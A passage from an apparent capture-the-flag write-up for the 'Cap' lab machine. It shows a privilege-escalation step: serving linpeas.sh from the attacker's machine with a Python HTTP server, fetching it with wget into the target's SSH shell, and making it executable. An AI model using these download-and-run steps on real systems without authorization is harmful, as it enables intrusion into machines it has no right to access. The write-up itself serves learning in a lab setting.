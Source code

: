 Now, let's transfer it to the **Cap(SSH)** shell.

#### **Disclaimer**

*Remember to do all the operations from the same directory form where you have connected to the **SSH**. It is absolutely necessary. The linpeas.sh file also should be in this exact path*

We have to set up **Python HTTP server**:

```
python -m http.server 80
```

![PE](./Screenshots/cappe3.png)

In the **Cap(SSH)** shell, type:

```
wget http://{your tun0 ip}:80/linpeas.sh
```

![PE](./Screenshots/cappe4.png)

We have it, server confirms it.

![PE](./Screenshots/cappe5.png)

Let's give the script all permissions and run it.

```
chmod +x linpeas.sh
```
